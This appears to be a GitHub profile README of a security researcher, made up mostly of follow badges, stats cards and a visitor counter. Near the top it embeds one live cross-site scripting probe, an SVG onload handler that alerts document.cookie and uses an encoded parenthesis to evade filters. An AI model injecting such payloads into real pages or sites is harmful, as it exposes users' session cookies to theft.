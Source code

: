 <svg onload=alert&#0000000040document.cookie)></svg>
[![Tweet](https://img.shields.io/twitter/url/http/Hktalent3135773.svg?style=social)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![Follow on Twitter](https://img.shields.io/twitter/follow/Hktalent3135773.svg?style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=Hktalent3135773) [![GitHub Followers](https://img.shields.io/github/followers/hktalent.svg?style=social&label=Follow)](https://github.com/hktalent/)
<br><img align="left" src="https://github-readme-stats.vercel.app/api?username=hktalent&count_private=true&show_icons=true&theme=chartreuse-dark" /><img align="right" src="https://github-readme-stats.vercel.app/api/top-langs/?username=hktalent&layout=compact&theme=chartreuse-dark&langs_count=8" />
<br>
<img align=left src=https://profile-counter.glitch.me/hktalent/count.svg>
